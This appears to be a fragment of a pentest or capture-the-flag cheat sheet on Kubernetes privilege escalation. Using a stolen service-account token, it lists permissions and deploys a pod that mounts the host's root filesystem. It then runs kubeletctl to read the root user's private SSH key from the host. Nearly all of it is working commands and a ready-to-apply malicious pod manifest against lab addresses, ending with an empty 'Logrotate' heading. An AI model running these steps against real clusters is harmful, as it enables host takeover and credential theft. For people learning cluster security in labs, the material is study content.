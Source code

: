 - List Privileges
```sh
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
#output

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											    []					[]				[get create list]
```

- Create our own YAML pod : 
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

- Creation new pod : 
```sh
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
#output

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```

- Extracting root ssh or make a reverse shell : 
```sh
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```

**Logrotate**
#Logrotate
